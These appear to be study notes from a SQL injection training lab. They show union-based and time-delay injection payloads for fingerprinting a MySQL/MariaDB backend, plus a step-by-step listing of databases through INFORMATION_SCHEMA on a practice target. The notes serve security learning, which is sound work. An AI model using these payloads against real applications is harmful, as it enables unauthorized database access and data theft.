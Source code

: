 **Practical Fingerprinting:**
```sql
-- Test MySQL version (most reliable)
cn' UNION select 1,@@version,3,4-- -
-- Expected: "10.3.22-MariaDB-1ubuntu1" or similar

-- Test MySQL math function
cn' UNION select 1,POW(1,1),3,4-- -  
-- Expected: "1"

-- Test MySQL time delay (for blind injection)
cn' and SLEEP(5)-- -
-- Expected: 5-second response delay
```

### INFORMATION_SCHEMA Database

**What is INFORMATION_SCHEMA?**
- Built-in MySQL database containing **metadata** about all databases/tables
- Contains structure information, not actual user data
- Critical for SQL injection enumeration
- Always present in MySQL installations

**Key Tables in INFORMATION_SCHEMA:**
- **SCHEMATA** → Database names
- **TABLES** → Table names per database  
- **COLUMNS** → Column names per table

**Cross-Database Queries with Dot Operator:**
```sql
-- Query table in different database
SELECT * FROM database_name.table_name;

-- Example: Query users table in ilfreight database
SELECT * FROM ilfreight.users;
```

### Step-by-Step Enumeration Process

#### Step 1: Identify Current Database
```sql
-- Find which database the application uses
cn' UNION select 1,database(),3,4-- -
-- Example result: "ilfreight"
```

#### Step 2: Discover All Databases
```sql
-- List all databases on server
cn' UNION select 1,schema_name,3,4 from INFORMATION_SCHEMA.SCHEMATA-- -

-- Expected output:
-- mysql (default - ignore)
-- information_schema (default - ignore)  
-- performance_schema (default - ignore)
-- ilfreight (target database)
-- dev (interesting database!)
```
